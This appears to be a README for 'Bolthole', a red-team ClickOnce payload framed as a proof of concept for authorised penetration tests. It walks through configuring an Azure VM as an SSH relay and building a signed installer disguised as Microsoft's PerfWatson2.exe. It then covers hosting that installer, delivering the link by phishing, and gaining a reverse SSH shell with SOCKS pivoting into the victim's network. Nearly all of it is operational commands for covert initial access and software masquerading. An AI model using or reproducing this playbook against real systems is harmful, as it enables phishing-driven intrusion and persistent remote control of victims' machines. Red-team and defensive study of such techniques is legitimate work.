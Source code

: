 # Bolthole

A proof-of-concept ClickOnce payload for Red Teams to establish initial access in authorized penetration tests.

## Overview

Bolthole provides operators with:
- Reverse SSH tunnel into the target environment
- CMD shell access as the executing user (no password required)
- SOCKS proxy functionality for pivoting

## Setup Instructions

### 1. Azure VM Configuration

1. Create an Azure VM (Ubuntu recommended)
2. Configure the sshd_config file:
   ```bash
   sudo nano /etc/ssh/sshd_config
   ```

   Add/modify these lines:
   ```
   Port 22
   Port 80
   Port 443
   Port 31337
   AllowTcpForwarding yes
   GatewayPorts yes
   PermitRootLogin no
   PasswordAuthentication no
   PubkeyAuthentication yes
   ```

3. Restart SSH service:
   ```bash
   sudo systemctl restart sshd
   ```
4. Create a user with nologin: sudo useradd -m -s /usr/sbin/nologin clientnameuser
5. Create an SSH keypair for the target to connect back: ssh-keygen -t rsa -b 4096 -f clientnameuser_key -N ""
6. Add pub key to authorized_keys: nano /home/clientnameuser/.ssh/authorized_keys
7. Change ownership: sudo chown -R clientnameuser:clientnameuser /home/clientnameuser/
8. Copy the contents of clientnameuser_key private key to WebDeploy\Install\BoltFiles\clientnameuser_key
9. Modify the Azure VM firewall in the networking settings of the VM to allow the ports you want inbound SSH for.

### 2. Build and Sign the ClickOnce Payload

1. Update connection settings in the project to use your Azure VM's FQDN
2. Change any ports you desire
3. Modify the authorized_keys file to include your pub key 'ssh-keygen -t ecdsa -N ""'
4. Copy PerfWatson2.exe "c:\program files\Microsoft Visual Studio\2022\Community\Common7\IDE\PerfWatson2.exe" to the "WebDeploy\Install" folder.
5. Open Tools -> Command Line -> Developer PowerShell
6. From the Bolthole directory, make the pvk: makecert.exe -sv ClickOnce.pvk -n "cn=ClickOnce" ClickOnce.cer -b 01/01/2025 -e 01/01/2026 -r
7. Convert to pfx: pvk2pfx.exe -pvk ClickOnce.pvk -spc ClickOnce.cer -pfx ClickOnce.pfx
8. Create Installer manifest from the WebDeploy\Install directory: mage.exe -New Application -Processor amd64 -ToFile .\Installer.exe.manifest -Name PerfWatson2 -Version 17.0.33711.286 -TrustLevel FullTrust -FromDirectory .
9. Sign the manifest: mage.exe -Sign .\Installer.exe.manifest -CertFile ..\..\ClickOnce.pfx
10. Create the application: mage.exe -New Deployment -Processor amd64 -Install false -Publisher "Digital Signatures" -AppManifest Installer.exe.manifest -ToFile Installer.application -ProviderUrl https://<insertyourapplication>.azurewebsites.net/Install/Installer.application
11. Sign the application: mage.exe -Sign .\Installer.application -CertFile ..\..\ClickOnce.pfx

### 3. Deployment

1. Host the ClickOnce package on a web server
2. Sign in using Azure CLI: az login --use-device-code
3. Fron the WebDeploy directory: az webapp up --location eastus2 --resource-group <INSERT> --name <INSERT> --html --sku F1
2. Provide the link to the target (via phishing or other authorized methods)
3. When executed, it will establish the reverse SSH tunnel

### 4. Usage

1. Connect to your Azure VM
2. Access the target machine through the established tunnel (default port 31332):
   ```bash
   ssh -p [TUNNEL_PORT] [USERNAME]@localhost
   ```
3. For SOCKS proxy:
   ```bash
   ssh -D 1080 -p [TUNNEL_PORT] [USERNAME]@localhost
   ```

## Legal Disclaimer

This tool is provided for authorized Red Team operations only. Usage against systems without explicit permission is illegal.

